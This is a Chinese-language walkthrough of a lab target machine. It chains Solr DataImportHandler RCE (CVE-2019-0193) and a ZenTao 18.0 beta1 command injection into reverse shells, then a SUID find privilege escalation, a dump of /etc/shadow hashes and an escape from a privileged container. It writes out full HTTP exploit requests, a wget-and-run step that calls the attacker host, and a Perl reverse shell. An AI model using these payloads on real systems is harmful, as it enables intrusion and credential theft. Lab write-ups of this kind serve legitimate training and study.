




# 攻击靶机

## 信息搜集

```bash title="sudo ./tools/fscan-1.8.4/fscan -h 192.168.200.134"
start infoscan
192.168.200.134:80 open
192.168.200.134:22 open
192.168.200.134:8983 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle http://192.168.200.134:8983 code:302 len:0      title:None 跳转 url: http://192.168.200.134:8983/solr/
[*] WebTitle http://192.168.200.134:8983/solr/ code:200 len:13138  title:Solr Admin
[*] WebTitle http://192.168.200.134    code:200 len:124    title:None
[+] InfoScan http://192.168.200.134    [禅道]
[+] PocScan http://192.168.200.134:8983 poc-yaml-solr-cve-2019-0193
```

## Port 8983 Solr

尝试直接访问



获取 Solr Core 信息

```json title="http://192.168.200.134:8983/solr/admin/cores"
{
  "responseHeader": {
    "status": 0,
    "QTime": 1
  },
  "initFailures": {},
  "status": {
    "demo": {
      "name": "demo",
      "instanceDir": "/opt/solr/server/solr/demo",
      "dataDir": "/opt/solr/server/solr/demo/data/",
      "config": "solrconfig.xml",
      "schema": "managed-schema",
      "startTime": "2025-03-15T00:22:56.656Z",
      "uptime": 401141,
      "index": {
        "numDocs": 46,
        "maxDoc": 46,
        "deletedDocs": 0,
        "indexHeapUsageBytes": -1,
        "version": 6,
        "segmentCount": 1,
        "current": false,
        "hasDeletions": false,
        "directory": "org.apache.lucene.store.NRTCachingDirectory:NRTCachingDirectory(MMapDirectory@/opt/solr/server/solr/demo/data/index lockFactory=org.apache.lucene.store.NativeFSLockFactory@18c59b55; maxCacheMB=48.0 maxMergeSizeMB=4.0)",
        "segmentsFile": "segments_2",
        "segmentsFileSizeInBytes": -1,
        "userData": {
          "commitCommandVer": "1825672391880081408",
          "commitTimeMSec": "1741096870309"
        },
        "lastModified": "2025-03-04T14:01:10.309Z",
        "sizeInBytes": 34167,
        "size": "33.37 KB"
      }
    }
  }
}
```

获得 `"name": "demo"` 信息之后，根据所得到的 Solr Core 信息，构造攻击数据包

在攻击机上 `http://192.168.200.128/solr.xml` 地址，托管一份基础的 Solr 数据源

```xml
<?xml version="1.0" encoding="UTF-8"?>
<RDF>
<item/>
</RDF>
```

然后发包

```plaintext
POST /solr/demo/dataimport HTTP/1.1
Host: 192.168.200.134:8983
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 770

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=demo&name=dataimport&dataConfig=<dataConfig> <dataSource type="URLDataSource"/> <script><![CDATA[ function poc(row){ var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("curl 192.168.200.128:9999").getInputStream())); var result = []; while(true) { var oneline = bufReader.readLine(); result.push( oneline ); if(!oneline) break; } row.put("title",result.join("\n\r")); return row; } ]]></script> <document> <entity name="entity1" url="http://192.168.200.128/solr.xml" processor="XPathEntityProcessor" forEach="/RDF/item" transformer="script:poc"> <field column="title" xpath="/RDF/item/title" /> </entity> </document> </dataConfig>
```

成功收到请求



尝试构造反连

```plaintext
POST /solr/demo/dataimport HTTP/1.1
Host: 192.168.200.134:8983
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 770

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=demo&name=dataimport&dataConfig=<dataConfig> <dataSource type="URLDataSource"/> <script><![CDATA[ function poc(row){ var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("curl 192.168.200.128:9999").getInputStream())); var result = []; while(true) { var oneline = bufReader.readLine(); result.push( oneline ); if(!oneline) break; } row.put("title",result.join("\n\r")); return row; } ]]></script> <document> <entity name="entity1" url="http://192.168.200.128/solr.xml" processor="XPathEntityProcessor" forEach="/RDF/item" transformer="script:poc"> <field column="title" xpath="/RDF/item/title" /> </entity> </document> </dataConfig>
```

尝试实现反连

```bash
wget 192.168.200.128/shell.sh
chmod +x shell.sh
sh ./shell.sh
```

成功收到反弹 shell

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.200.128] from (UNKNOWN) [192.168.200.134] 42364
root@7c589689c593:/opt/solr/server# whoami
root
```

或者也可以高级一点，直接用 `pwncat` 处理反连 shell

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ pwncat-cs -lp 9999
[08:45:06] Welcome to pwncat 🐈!
[08:45:13] received connection from 192.168.200.134:51926
[08:45:13] 192.168.200.134:51926: registered new host w/ db
(local) pwncat$ back
(remote) root@7c589689c593:/opt/solr/server# whoami
root
```

## FLAG - USER

```flag title="/home/user.txt"
zentao:18.0.beta1

username:Nss-admin
password:Ax2Xwz1@x*Xs1I
```

## 容器信息收集

上传两个工具 `CDK` 和 `linpeas` 运行，得到自动化检测结果

```bash title="linpeas"
                                   ╔═══════════╗
═══════════════════════════════════╣ Container ╠═══════════════════════════════════
                                   ╚═══════════╝
╔══════════╣ Container related tools present (if any):
╔══════════╣ Am I Containered?
╔══════════╣ Container details
═╣ Is this a container? ........... docker
═╣ Any running containers? ........ No
╔══════════╣ Docker Container details
═╣ Am I inside Docker group ....... No
═╣ Looking and enumerating Docker Sockets (if any):
═╣ Docker version ................. Not Found
═╣ Vulnerable to CVE-2019-5736 .... Not Found
═╣ Vulnerable to CVE-2019-13139 ... Not Found
═╣ Rootless Docker? ............... No

╔══════════╣ Container & breakout enumeration
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout
═╣ Container ID ................... 7c589689c593
═╣ Container Full ID .............. 7c589689c59359d9d102a4a86ff07bab62b7ed6462756bc299fe37e570550c56
═╣ Seccomp enabled? ............... enabled
═╣ AppArmor profile? .............. docker-default (enforce)
═╣ User proc namespace? ........... enabled         0          0 4294967295
═╣ Vulnerable to CVE-2019-5021 .... No
```

在用户目录下，得到禅道的凭据

```plaintext title="/home/user.txt"
zentao:18.0.beta1

username:Nss-admin
password:Ax2Xwz1@x*Xs1I
```

## Port 80 禅道

使用在 Solr 得到的凭据，登录禅道



得到的禅道版本是 `Opensource 18.0 beta1`

参考 [禅道系统权限绕过与命令执行漏洞 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/195828.html)

```plaintext
POST /repo-create-1.html HTTP/1.1
Host: 192.168.200.134
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Referer: http://192.168.200.134/my.html
Accept-Encoding: gzip, deflate, br
Cookie: lang=zh-cn; device=desktop; theme=default; zentaosid=9rk21290991v9165crc79sb813;
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

product%5B%5D=1&SCM=Gitlab&name=123&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=
```

得到返回



```plaintext
{
    "result": "success",
    "message": "保存成功",
    "locate": "/repo-showSyncCommit-3-1.html#app=devops"
}
```

然后尝试执行 `id`

```plaintext
POST /repo-edit-10000-10000.html HTTP/1.1
Host: 192.168.200.134
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Referer: http://192.168.200.134/my.html
Accept-Encoding: gzip, deflate, br
Cookie: lang=zh-cn; device=desktop; theme=default; zentaosid=9rk21290991v9165crc79sb813;
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

SCM=Subversion&client=`id`
```

得到返回

```plaintext
{
    "result": "fail",
    "message": {
        "client": "客户端错误！<br /> 执行命令：`id` --version --quiet 2>&1<br />\n 错误结果 (127)： sh: 1: uid=33(www-data): not found<br />\n"
    }
}
```

确认可以命令执行，尝试反弹 shell

```bash title="shell.sh"
perl -e 'use Socket;$i="192.168.200.128";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[13:21:31] Welcome to pwncat 🐈!
[13:26:32] received connection from 192.168.200.134:41340
[13:26:33] 192.168.200.134:41340: registered new host w/ db
(local) pwncat$ back
(remote) www-data@873c2ec0dbeb:/www/zentaopms/module/repo$ whoami
www-data
```

## 容器信息收集

尝试搜寻 suid 特权文件

```bash title="find / -perm -u=s -type f 2>/dev/null"
/bin/su
/bin/mount
/bin/umount
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/find
......
```

尝试利用 `find` 实现提权到 root

```bash
(remote) www-data@873c2ec0dbeb:/tmp$ find . -exec /bin/bash -p \; -quit
(remote) root@873c2ec0dbeb:/tmp$ whoami
root
```

搜集信息

```bash title="linpeass"
                              ╔═════════════════════╗
══════════════════════════════╣ Network Information ╠══════════════════════════════
                              ╚═════════════════════╝
╔══════════╣ Hostname, hosts and DNS
873c2ec0dbeb
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      873c2ec0dbeb

nameserver 192.168.200.2
search localdomain
```

```bash title="cdk"
(remote) root@873c2ec0dbeb:/tmp# ./cdk_linux_amd64 auto-escape ls
2025/03/15 13:57:45 Caution: Flag auto-escape is deprecated as of CDK v1.5.1, and will be archived in v2.0. We recommend migrating to `./cdk eva --full` and `./cdk run`.

[Auto Escape - Privileged Container]
2025/03/15 13:57:45 Capabilities hex of Caps(CapInh|CapPrm|CapEff|CapBnd|CapAmb):
        CapInh: 0000000000000000
        CapPrm: 000001ffffffffff
        CapEff: 000001ffffffffff
        CapBnd: 000001ffffffffff
        CapAmb: 0000000000000000
        Cap decode: 0x000001ffffffffff = CAP_CHOWN,CAP_DAC_OVERRIDE,CAP_DAC_READ_SEARCH,CAP_FOWNER,CAP_FSETID,CAP_KILL,CAP_SETGID,CAP_SETUID,CAP_SETPCAP,CAP_LINUX_IMMUTABLE,CAP_NET_BIND_SERVICE,CAP_NET_BROADCAST,CAP_NET_ADMIN,CAP_NET_RAW,CAP_IPC_LOCK,CAP_IPC_OWNER,CAP_SYS_MODULE,CAP_SYS_RAWIO,CAP_SYS_CHROOT,CAP_SYS_PTRACE,CAP_SYS_PACCT,CAP_SYS_ADMIN,CAP_SYS_BOOT,CAP_SYS_NICE,CAP_SYS_RESOURCE,CAP_SYS_TIME,CAP_SYS_TTY_CONFIG,CAP_MKNOD,CAP_LEASE,CAP_AUDIT_WRITE,CAP_AUDIT_CONTROL,CAP_SETFCAP,CAP_MAC_OVERRIDE,CAP_MAC_ADMIN,CAP_SYSLOG,CAP_WAKE_ALARM,CAP_BLOCK_SUSPEND,CAP_AUDIT_READ,CAP_PERFMON,CAP_BPF,CAP_CHECKPOINT_RESTORE
        Added capability list: CAP_DAC_READ_SEARCH,CAP_LINUX_IMMUTABLE,CAP_NET_BROADCAST,CAP_NET_ADMIN,CAP_IPC_LOCK,CAP_IPC_OWNER,CAP_SYS_MODULE,CAP_SYS_RAWIO,CAP_SYS_PTRACE,CAP_SYS_PACCT,CAP_SYS_ADMIN,CAP_SYS_BOOT,CAP_SYS_NICE,CAP_SYS_RESOURCE,CAP_SYS_TIME,CAP_SYS_TTY_CONFIG,CAP_LEASE,CAP_AUDIT_CONTROL,CAP_MAC_OVERRIDE,CAP_MAC_ADMIN,CAP_SYSLOG,CAP_WAKE_ALARM,CAP_BLOCK_SUSPEND,CAP_AUDIT_READ,CAP_PERFMON,CAP_BPF,CAP_CHECKPOINT_RESTORE
[*] Maybe you can exploit the Capabilities below:
[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.
[!] CAP_SYS_MODULE enabled. You can escape the container via loading kernel module. More info at https://xcellerator.github.io/posts/docker_escape/.
Critical - SYS_ADMIN Capability Found. Try 'cdk run rewrite-cgroup-devices/mount-cgroup/...'.
2025/03/15 13:57:45 not privileged container.

[Auto Escape - Shared Net Namespace]
2025/03/15 13:57:45 Cannot find vulnerable containerd-shim socket.
2025/03/15 13:57:45 exploit failed.

[Auto Escape - docker.sock]
2025/03/15 13:57:45 err found while stat docker.sock path.:
stat /var/run/docker.sock: no such file or directory
2025/03/15 13:57:45 exploit failed

[Auto Escape - K8s API Server]
2025/03/15 13:57:45 checking if api-server allows system:anonymous request.
err found while searching local K8s apiserver addr.:
err: cannot find kubernetes api host in ENV
        api-server forbids anonymous request.
        response:
load K8s service account token error.:
open /var/run/secrets/kubernetes.io/serviceaccount/token: no such file or directory
2025/03/15 13:57:45 exploit failed
2025/03/15 13:57:45 all exploits are finished, auto exploit failed.
```

根据输出，尝试使用 `cap-dac-read-search`

```bash title="./cdk_linux_amd64 run cap-dac-read-search"
(remote) root@873c2ec0dbeb:/tmp# ./cdk_linux_amd64 run cap-dac-read-search
Running with target: /etc/shadow, ref: /etc/hostname
root:$6$yI61A01eNCul1WWm$qNFS.GCNGvnPNf09b2iZArHiXW5jB9d/Z4bh5hXBFotzQmcmUw6rVjJ6dxJZLU8y9EystxPsuKlld2Grk8Gc2/:20151:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
avahi-autoipd:*:18375:0:99999:7:::
usbmux:*:18375:0:99999:7:::
rtkit:*:18375:0:99999:7:::
dnsmasq:*:18375:0:99999:7:::
cups-pk-helper:*:18375:0:99999:7:::
speech-dispatcher:!:18375:0:99999:7:::
avahi:*:18375:0:99999:7:::
kernoops:*:18375:0:99999:7:::
saned:*:18375:0:99999:7:::
nm-openvpn:*:18375:0:99999:7:::
hplip:*:18375:0:99999:7:::
whoopsie:*:18375:0:99999:7:::
colord:*:18375:0:99999:7:::
geoclue:*:18375:0:99999:7:::
pulse:*:18375:0:99999:7:::
gnome-initial-setup:*:18375:0:99999:7:::
gdm:*:18375:0:99999:7:::
qwe:$6$PHFUFXpCzu7EsuT9$vTXRl66ngDfaki6e2S2MCeO5J2YpDsO6AeubOshT.Hdvrf49lRsVhyejaPMDmDhUFdezeX1cIH5cQATtHY0p9.:20151:0:99999:7:::
systemd-coredump:!!:20101::::::
sshd:*:20151:0:99999:7:::
```

## 容器逃逸分析

结合 `CAP_DAC_READ_SEARCH` 权限被启用，尝试进行分析

```bash
(remote) root@873c2ec0dbeb:/tmp# ./cdk_linux_amd64 run cap-dac-read-search
Running with target: /etc/shadow, ref: /etc/hostname
root:$6$yI61A01eNCul1WWm$qNFS.GCNGvnPNf09b2iZArHiXW5jB9d/Z4bh5hXBFotzQmcmUw6rVjJ6dxJZLU8y9EystxPsuKlld2Grk8Gc2/:20151:0:99999:7:::
......
qwe:$6$PHFUFXpCzu7EsuT9$vTXRl66ngDfaki6e2S2MCeO5J2YpDsO6AeubOshT.Hdvrf49lRsVhyejaPMDmDhUFdezeX1cIH5cQATtHY0p9.:20151:0:99999:7:::
```

同时发现

```bash
(remote) root@873c2ec0dbeb:/data/etc# cat /data/etc/shadow
root:$6$yI61A01eNCul1WWm$qNFS.GCNGvnPNf09b2iZArHiXW5jB9d/Z4bh5hXBFotzQmcmUw6rVjJ6dxJZLU8y9EystxPsuKlld2Grk8Gc2/:20151:0:99999:7:::
qwe:$6$PHFUFXpCzu7EsuT9$vTXRl66ngDfaki6e2S2MCeO5J2YpDsO6AeubOshT.Hdvrf49lRsVhyejaPMDmDhUFdezeX1cIH5cQATtHY0p9.:20151:0:99999:7:::
```

很明显，直接将宿主机的 `/` 挂载到容器的 `/data` 目录了

```bash title="/data/home/qwe/.bash_history"
docker image rm vulhub/weblogic
docker image rm e0958635a01f
docker ps -a
docker start 7c589689c593
docker ps
docker update --restart=7c589689c593
docker update --restart=always 7c589689c593
docker exec -it 7c589689c593 /bin/bash
docker images
docker exec -it 7c589689c593 /bin/bash
docker pull easysoft/zentao:18.0.beta1
docker images
docker run -d -v /ope/zentao/data:/data -p 80:80 -e MYSQL_INTERNAL=true --privileged=true 411018a196f5
docker ps
docker stop f8a7c7445ab8
docker rm f8a7c7445ab8
docker ps -a
docker run -d -v /:/data -p 80:80 -e MYSQL_INTERNAL=true --privileged=true 411018a196f5
```

那就不用多说了，都是特权容器

```bash
# 未提权
(remote) www-data@873c2ec0dbeb:/$ whoami; hostname
www-data
873c2ec0dbeb

# 提权后
(remote) www-data@873c2ec0dbeb:/$ find . -exec /bin/bash -p \; -quit
(remote) root@873c2ec0dbeb:/# whoami; hostname
root
873c2ec0dbeb

# 逃逸后
(remote) root@873c2ec0dbeb:/# chroot /data bash
(remote) www-data@873c2ec0dbeb:/$ whoami; hostname; hostnamectl
www-data
873c2ec0dbeb
   Static hostname: ubuntu
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 2814c549570d4292b2f23c079b91b932
           Boot ID: 930d846870794195ad287c500051e2a3
    Virtualization: vmware
  Operating System: Ubuntu 20.04 LTS
            Kernel: Linux 5.15.0-134-generic
      Architecture: x86-64
```

Linux 一切皆为文件，所以可以视作逃逸完成
